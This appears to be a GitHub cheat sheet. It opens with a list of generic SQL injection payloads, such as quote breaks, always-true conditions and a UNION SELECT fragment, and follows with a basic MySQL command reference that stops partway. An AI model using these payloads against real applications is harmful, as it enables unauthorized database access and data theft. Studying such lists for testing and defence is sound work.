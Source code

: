 -------------------------------------------------------------------------------------------------------
# SQL injection payload list
`Generic SQL Injection Payloads`
```sql
'
''
' or "
-- or # 
' OR '1
' OR 1 -- -
'or 1=1 -- -
" OR "" = "
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
```
------------------------------------------------------------------------------------------------------
## MySQL

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `mysql -u root -h examle.com -P 3306 -p` | login to mysql database |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| **Tables** |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |
| **Columns** |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |